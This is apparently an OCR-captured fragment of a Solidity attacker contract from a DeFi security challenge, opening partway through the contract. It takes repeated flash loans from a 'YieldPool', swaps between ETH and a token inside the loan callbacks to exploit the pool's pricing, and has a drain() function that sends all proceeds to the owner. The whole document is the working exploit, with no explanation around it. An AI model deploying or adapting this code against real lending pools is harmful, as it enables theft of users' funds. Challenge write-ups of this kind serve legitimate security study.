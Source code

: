 ```solidity
    bool lastAttackWasETH = false;

    constructor(address target) payable
    {
        pool = YieldPool(payable(target));
        secureumToken = pool.TOKEN();
        owner = msg.sender;
    }

    function attackETH() external payable
    {
        // Get a loan in ETH.
        lastAttackWasETH = true;
        pool.flashLoan(this, pool.ETH(), address(this).balance * 100, "");
    }

    function attackToken() external payable
    {
        // Get a loan in tokens.
        lastAttackWasETH = false;
        pool.flashLoan(this, address(secureumToken), secureumToken.balanceOf(address(this)) * 100, "");
    }

    function drain() external
    {
        //Withdraw all our money at the end
        owner.call{value: address(this).balance}("");
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32)
    {
        //Check if we get a token flashloan or its just the call from the eth loan
        if (!lastAttackWasETH)
        {
            secureumToken.approve(address(pool), secureumToken.balanceOf(address(this)));
            pool.tokenToEth(secureumToken.balanceOf(address(this)));
        }

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    receive() external payable {
        //We get a eth flashloan
        if (lastAttackWasETH)
        {
            pool.ethToToken{value: address(this).balance}();
        }
    }
}
```

